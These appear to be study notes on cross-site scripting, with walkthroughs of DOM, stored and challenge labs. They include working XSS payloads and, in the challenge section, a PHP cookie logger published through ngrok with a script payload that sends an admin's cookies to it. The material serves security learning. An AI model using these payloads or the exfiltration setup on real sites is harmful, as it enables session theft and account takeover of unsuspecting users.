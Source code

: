 ## Overview

**What is XSS**
- XSS stands for Cross-site Scripting
- It allows us to execute JavaScript in a victim's browser
- We have 3 types of XSS which are
    - **Reflected** 
	    - - is where the script we are trying to inject comes from the current http request, it is somehow limited cos' it looks like we are only targeting ourselves
    - **Stored** 
	    - This one is much more powerful because our payload is stored in something like a database and then can be retrieved later
    - **DOM** 
	    - **enables attackers to inject a malicious payload into a web page by manipulating the client's browser environment**. Since these attacks rely on the Document Object Model, they are orchestrated on the client-side after loading the page.

## XSS - DOM Lab

**Exploring a DOM-based XSS Vulnerability**

In this lab, you get a web page where we can add items to a list. 
No actual requests are made to external resources.

1. **Inspection Reveals Static Content**: Inspecting the network tab, no requests made outside of local resources.
2. **Payload Testing**: inject a simple payload `<script>prompt(1)</script>`, stored as an item and not executed.
3. **Discovering the Trigger**: After experimenting we see quote escaping: `"><img src=/ onerror="prompt(1)">` triggers the XSS vulnerability.

## XSS - Stored Lab

1. **HTML Injection Test**: Begin by testing for HTML injection to see if it's executed.
    ```
    <h1>this is a test</h1>
    ```
    - The injected HTML is executed

2. **Testing for XSS**: Next, we try to trigger XSS using the payload `<script>alert(1)</script>`, which works

3. **Cookie Theft**: We can also try to steal cookies using the payload `<script>alert(document.cookie)</script>`.

## XSS - Challenge Walkthrough

### Flow

1. **Sending the Payload**: send a basic XSS payload via the support ticket page to the admin
2. **Confirming XSS**: navigate to the admin page  > refresh
	- XSS executed
### Preparing 
1. **Setting up Ngrok Server**: create a PHP script to log admin activities and start a server.

    ```PHP
    <?php
    $ip=$_SERVER['HTTP_X_FORWARDED_FOR'];
    $ua=$_SERVER['HTTP_USER_AGENT'];

    $fp=fopen('cookies.txt' , 'a+');
    fwrite($fp, $ip.' '.$ua."\n");
    fwrite($fp, urldecode($_SERVER['QUERY_STRING']). " \n\n");
    fclose($fp);
    ?>
    ```

    - publish through ngrok
    ```bash
    $ ngrok http 80
    ```

2. **Crafting XSS Payload**: make an XSS payload to steal the admin cookie and send it to the remote server.
    ```js
    <script> var i=new Image(); i.src="<NGROK>/xss.php?cookie="+document.cookie;</script>
    ```
3. go to ngrok link `/<filename>.php`
	- /cookies.txt

### Launching

1. **Submitting the Payload**: We submit the XSS payload to the admin.
    ```js
    <script> var i=new Image(); i.src="<NGROK>/xss.php?admin_cookie="+document.cookie;</script>
    ```
2. **Obtaining the Admin Cookie**: Upon refreshing the admin page, we see our server logs the admin cookie.

